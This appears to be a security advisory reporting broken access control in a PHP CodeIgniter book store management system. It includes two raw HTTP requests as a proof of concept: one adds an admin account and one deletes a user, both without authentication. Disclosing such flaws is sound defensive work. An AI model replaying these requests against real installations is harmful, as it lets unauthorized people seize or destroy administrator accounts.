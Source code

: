# Broken Access Control

The product(s): https://www.sourcecodester.com/php/15748/book-store-management-system-project-using-php-codeigniter-3-free-source-code.html

Affected product(s)/code base: https://www.sourcecodester.com/sites/default/files/download/oretnom23/bsms_ci.zip

Affected component(s):

- /bsms_ci/index.php/dashboard/*
- /bsms_ci/index.php/category/*
- /bsms_ci/index.php/book/*
- /bsms_ci/index.php/transaction/*
- /bsms_ci/index.php/history/*
- /bsms_ci/index.php/user/*

Proof of Concept: Access all URLs without logging in and use all actions like an admin like edit, detele, add new account.

1. Send a request Add new account without cookie

Burpsuite Request:

```txt
POST /bsms_ci/index.php/user/add HTTP/1.1
Host: localhost
Content-Length: 64
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="107", "Not=A?Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.107 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/bsms_ci/index.php/user
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

fullname=john&username=john&password=12345&level=admin&save=Save
```

Image:

![image](images/add_user.png)

2. Send a request Delete account without cookie

Burpsuite Request:

```txt
GET /bsms_ci/index.php/user/hapus/2 HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="107", "Not=A?Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.107 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/bsms_ci/index.php/user
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close


```

Image:

![image](images/delete_user.png)

Discoverer(s)/Credits: CMCSOC Redteam (@lithonn)

- Ngo Van Tu (@leecybersec)
- Tran Thi Nho (@nhott)
- Huynh Nhat Hao (@h40huynh)
- Le Thi Huyen My (@Huy3nMy)